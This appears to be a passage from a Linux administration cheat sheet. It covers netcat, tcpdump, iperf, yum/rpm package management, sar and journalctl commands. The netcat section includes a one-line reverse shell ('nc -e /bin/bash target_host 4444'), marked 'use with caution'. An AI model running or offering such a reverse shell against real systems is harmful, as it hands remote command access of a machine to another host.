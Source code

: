 **3. Advanced Networking Operations:**
- **Advanced `nc` Operations:**
  ```bash
  # Create a simple chat server
  while true; do nc -l -p 1234 -e /bin/cat; done
  
  # Create a reverse shell (use with caution)
  nc -e /bin/bash target_host 4444
  ```

- **Traffic Analysis with `tcpdump`:**
  ```bash
  sudo tcpdump -i eth0 -w capture.pcap
  sudo tcpdump -r capture.pcap
  ```

- **Network Performance Testing with `iperf`:**
  ```bash
  # On server-side
  iperf3 -s

  # On client-side
  iperf3 -c server_ip
  ```

**4. Advanced Package Management (RPM-Based Systems):**
- **Installing and Removing Packages:**
  ```bash
  sudo yum install package_name
  sudo yum remove package_name
  ```

- **Managing Repositories:**
  ```bash
  sudo yum-config-manager --add-repo http://example.com/repository.repo
  sudo yum repolist
  ```

- **Querying RPM Packages:**
  ```bash
  rpm -qa | grep package_name
  rpm -ql package_name
  ```

**5. Advanced System Monitoring and Logging:**
- **Using `sar` for Historical System Performance Analysis:**
  ```bash
  # Install sysstat package
  sudo apt-get install sysstat
  
  # Collect data
  sudo sar -u 1 5  # CPU usage
  sudo sar -r 1 5  # Memory usage
  ```

- **Analyzing Logs with `journalctl`:**
  ```bash
  sudo journalctl -u servicename  # View logs for a specific service
  sudo journalctl -b              # Logs since last boot
  ```
